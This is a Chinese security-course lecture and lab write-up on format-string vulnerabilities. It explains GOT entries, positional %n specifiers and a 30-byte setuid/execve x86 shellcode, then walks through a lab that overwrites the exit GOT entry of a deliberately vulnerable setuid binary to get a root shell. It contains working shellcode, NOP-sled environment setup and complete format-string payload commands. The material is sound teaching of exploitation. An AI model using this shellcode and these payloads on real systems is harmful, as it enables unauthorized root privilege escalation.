










# Format String Vulnerability Lec&Lab--Part 2 Shellcode

本文作者：[对酒当歌](https://blog.csdn.net/youyouwoxi)、边城

# Lec

#### 2、为了顺利完成下节课，建议仔细阅读下面这篇文章的Level 9部分：

https://infamoussyn.com/2013/09/11/smashthestack-io-walkthrough-part-b-levels-6-10/
https://tomasuh.github.io/2015/01/19/IO-Wargame.html
，文章中利用.dtors的办法只是利用格式化字符串执行shellcode的一种形式。
printf中%2\$d这类格式的含义如下：
Character Description 
n\$ 

n 是要使用此格式说明符显示的参数的编号，允许使用不同的格式说明符或以不同的顺序多次输出提供的参数。这是一个 POSIX 扩展，而不是在 C99 中。
示例：` printf("%2$d %1$#x %1$d",16,17) `生成"17 0x10 16"

Level 9仍然格式字符串攻击，在系统之间拥有两个非常便于携带的地址，使用argv [1]的地址覆盖保存的返回地址来利用格式字符串漏洞和执行shellcode。

#### 3、描述linux ELF文件中，全局偏移表GOT表(Global Offset Table)的作用。

ELF(Executable and Linking Format)格式的共享库使用 PIC 技术使代码和数据的引用与地址无关，程序可以被加载到地址空间的任意位置。PIC在代码中的跳转和分支指令不使用绝对地址。PIC 在 ELF 可执行映像的数据段中建立一个存放所有全局变量指针的全局偏移量表GOT

 

对于模块外部引用的全局变量和全局函数，用 GOT表的表项内容作为地址来间接寻址；对于本模块内的静态变量和静态函数，用 GOT表的首地址作为一个基准，用相对于该基准的偏移量来引用，因为不论程序被加载到何种地址空间，模块内的静态变量和静态函数与GOT 的距离是固定的，并且在链接阶段就可知晓其距离的大小。这样，PIC 使用 GOT来引用变量和函数的绝对地址，把位置独立的引用重定向到绝对位置。

 

对于 PIC代码，代码段内不存在重定位项，实际的重定位项只是在数据段的 GOT 表内。共享目标文件中的重定位类型有R_386_RELATIVE、R_386_GLOB_DAT 和R_386_JMP_SLOT，用于在动态链接器加载映射共享库或者模块运行的时候对指针类型的静态数据、全局变量符号地址和全局函数符号地址进行重定位。


#### 4、解释一下什么叫shellcode。

下面这段代码被root编译并且suid后，普通用户是否能获得root shell？

解释"\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"其中的含义。

```c
/*
 * gcc -z execstack -o setuid-linux setuid-linux.c *
 * setuid-linux.c - setuid/execve shellcode for Linux/x86
 * Short fully-functional setuid(0) and /bin/sh execve() shellcode.
 */

/* 
 * setuid(0)
 *
 * 8049380:       6a 17                   push   $0x17
 * 8049382:       58                      pop    %eax
 * 8049383:       31 db                   xor    %ebx,%ebx
 * 8049385:       cd 80                   int    $0x80
 *
 * execve("/bin//sh", ["/bin//sh"], NULL)
 *
 * 8049387:       6a 0b                   push   $0xb
 * 8049389:       58                      pop    %eax
 * 804938a:       99                      cltd   
 * 804938b:       52                      push   %edx
 * 804938c:       68 2f 2f 73 68          push   $0x68732f2f
 * 8049391:       68 2f 62 69 6e          push   $0x6e69622f
 * 8049396:       89 e3                   mov    %esp,%ebx
 * 8049398:       52                      push   %edx
 * 8049399:       53                      push   %ebx
 * 804939a:       89 e1                   mov    %esp,%ecx
 * 804939c:       cd 80                   int    $0x80
 */

char sc[] = /* 7 + 23 = 30 bytes */
"\x6a\x17\x58\x31\xdb\xcd\x80"
"\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80";

main()
{
	int (*f)() = (int (*)())sc; f();
}
```

shellcode是一段用于利用软件漏洞而执行的代码，shellcode为16进制的机器码，因为经常让攻击者获得shell而得名。shellcode常常使用机器语言编写。 可在暂存器eip溢出后，塞入一段可让CPU执行的shellcode机器码，让电脑可以执行攻击者的任意指令。

"\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80"就是一个Shellcode。执行的就是代码注释中setuid(0)、execve("/bin//sh", ["/bin//sh"], NULL)的意思。即先赋予进程SUID权限，再进入bin//sh后，拿着root权限为所欲为。

如，`push $0x17`将setuid入栈，`pop %eax`，命令弹出放入ax寄存器，`xor %ebx,%ebx`，bx自己和自己异或得0，`int $0x80`，检查ax调用相应命令，参数为bx中值，这样就成功获得SUID权限。

Shellcode 根据不同的任务可能是发出一条系统调用或建立一个高权限的 Shell， Shellcode 也就由此得名。不同数据对数据要求不同，因此，Shellcode 也不一定相同。

```bash
gcc -z execstack -o setuid_linux setuid_linux.c
sudo chown root setuid_linux
sudo chmod 4755 setuid_linux

./setuid_linux
whoami
id
```



可见，普通用户获得了 root shell。

5、阅读
https://www.exploit-db.com/exploits/36858
https://www.exploit-db.com/shellcodes/44321

6、阅读
格式化字符串漏洞解析
https://bbs.pediy.com/thread-261940.htm

# Lab

Lab4 Format-String Vulnerability Lab (2) 

Source code:

```c
/*
* 如果获得环境变量的程序和攻击的程序的文件名长度不一样，环境变量的地址
* 会发生偏移。因此，要么令两个程序的文件名长度相等（推荐），要么考虑偏
* 移来计算环境变量地址。
* gcc -z execstack -o got got.c
*/
#include <stdio.h>
#include <string.h>

int flag = 0x1000;
int main(int argc, char **argv)
{
    char buf[1024];

    strncpy(buf, argv[1], sizeof(buf) - 1);
    printf("\n%p\n", &flag);
    printf(buf);
    if (XXXX == flag)
    {
        puts("done");
        exit(0);
    }
}
```

利用root把上面这段代码编译并且suid，然后普通用户执行它，要求就是成功获得root shell。
可以参考formatstring-1.2.pdf。

http://www.cis.syr.edu/~wedu/seed/Labs/Vulnerability/Format_String/的
Helpful Documents处可以下载formatstring-1.2.pdf。

> 总体思路：当执行Set-UID程序时，如果将存放函数结尾处exit(0)的地址换为保存了shellcode代码的环境变量EGG的地址，那么在程序结束时，会以root权限运行我们的shellcode，从而使我们顺利进入root shell。objdump命令可以查看程序内部地址，export命令可以改变环境变量。此实验需要在改变函数结尾地址之前，改变flag的值为设定的值。

### 准备工作

1. 以 root 用户编译 got.c 文件，并设置 suid，关闭随机地址保护机制

> NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。
>
> gcc编译器默认开启了NX选项，如果需要关闭NX选项，可以给gcc编译器添加-z execstack参数。 例如：
>
> - gcc -o test test.c // 默认情况下，开启NX保护
>
> - gcc -z execstack -o test test.c // 禁用NX保护
>
> - gcc -z noexecstack -o test test.c // 开启NX保护

```bash
sudo sysctl -w kernel.randomize_va_space=0

gcc -z execstack -o got got.c
sudo chown root got
sudo chmod 4755 got
```


### 查找并修改

修改 flag 的值为 6666 （此值视情况而定），先用一串%x 找出 flag 的位置

```
got %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
```



可见其在第一个位置，因此使用`%.4271x%1\$n` 将 flag 的值修改

```bash
./got %.6666x%1\$n
```





输出“done”意味着修改成功。

### Shellcode

 把 shellcode 放进环境变量 EGG，由于含有不可输出字符，所以使用 Python 送入环境变量，使用以下语句： 

```bash
export EGG=$(python -c "print '\x90'*1000 + '\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x0b\x58\x99\x52\x68//sh\x68/bin\x89\xe3\x52\x53\x89\xe1\xcd\x80'")
```

编写 att.c 文件

```c
#include <stdio.h>
#include <stdlib.h>
int main(void)
{
    printf("EGG address: %p ", getenv("EGG"));
}
```

并在 seed 用户下编译，运行，用以输出环境变量的地址。保存为att.c文件，并编译为att文件，是为了和got文件名长度相同，也必须相同，否则地址会有偏差。

```bash
gcc att.c -o att
./att
```



### 构建攻击字符串

先找到 exit 地址

```bash
objdump -R got
```

 

接下来的任务是将 exit 的地址改为 bffffbd7。即shellcode地址。

用试错法发现，输入的数据在第 11 个%x。也就是说，从第 11 个位 置开始，是我们输入数据的位置。 

```bash
got aaaa.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
```



> 将0x0804a010分成两个连续的 2 字节内存位置：0x0804a010和0x0804a012。
>
> 将0xbfff存储到0x0804a012中，0xfbd7存储到0x0804a010中

现将 flag 的地址送入栈中，对应第 11 个%x，而其 flag 的值由步骤 2 可知其对应第 1 个%x，插入四个字节（字符串“@@@@”），再将 exit 函数的高位地址（0x0804a012）送入栈中，对应第 13 个%x，插 入四个字节（字符串“@@@@”），最后将 exit 函数的低位地址（0x0804a010）送入栈中，对应第 15 个%x。

由于前面已经输出了 20 个字符，所以 6666-20=6646，用`%.6646x%1\$n` 修改 flag 的值。

49151 （0xbfff）-6666  =42485，所以`%.42485x%13\$hn` 修改 exit 函数的高 位地址。

64471（0xfbd7）-49151=15320，所以用`%.15320x%15\$hn` 修 改 exit 函数的低位地址。



```bash
got $(printf "\x24\xa0\x04\x08@@@@\x12\xa0\x04\x08@@@@\x10\xa0\x04\x08")%.6646x%1\$n%.42485x%13\$hn%.15320x%15\$hn

or

got $(printf "\x24\xa0\x04\x08@@@@\x12\xa0\x04\x08@@@@\x10\xa0\x04\x08")%20x%20x%20x%20x%20x%20x%20x%20x%20x%6466x%n%42485x%hn%15320x%hn
```

攻击均能成功




